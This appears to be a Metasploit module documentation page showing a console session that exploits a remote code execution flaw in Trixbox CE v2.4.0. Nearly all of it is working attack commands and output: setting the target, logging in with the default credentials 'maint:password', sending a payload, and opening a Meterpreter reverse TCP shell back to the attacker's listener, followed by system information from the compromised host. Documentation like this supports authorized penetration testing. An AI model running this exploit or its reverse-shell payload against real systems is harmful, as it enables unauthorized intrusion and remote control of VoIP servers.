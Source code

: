### Trixbox CE v2.4.0
```
msf5 > use exploit/unix/webapp/trixbox_ce_endpoint_devicemap_rce
msf5 exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > set rhosts 192.168.1.7
rhosts => 192.168.1.7
msf5 exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > show options

Module options (exploit/unix/webapp/trixbox_ce_endpoint_devicemap_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  password         yes       Password to login with
   HttpUsername  maint            yes       User to login with
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.1.7      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80               yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Linux Dropper)


msf5 exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > set lhost 192.168.1.10
lhost => 192.168.1.10
msf5 exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.10:4444
[*] 192.168.1.7:80 - Authenticating using "maint:password" credentials...
[+] 192.168.1.7:80 - Authenticated successfully.
[+] 192.168.1.7:80 - Trixbox CE v2.4.0 identified.
[*] 192.168.1.7:80 - Sending payload (150 bytes)...
[*] Sending stage (980808 bytes) to 192.168.1.7
[*] Meterpreter session 1 opened (192.168.1.10:4444 -> 192.168.1.7:4478) at 2020-05-02 03:52:53 -0400
[*] Command Stager progress - 100.00% done (799/799 bytes)

meterpreter > sysinfo
Computer     : trixbox1.localdomain
OS           : CentOS 5 (Linux 2.6.18-53.1.4.el5)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```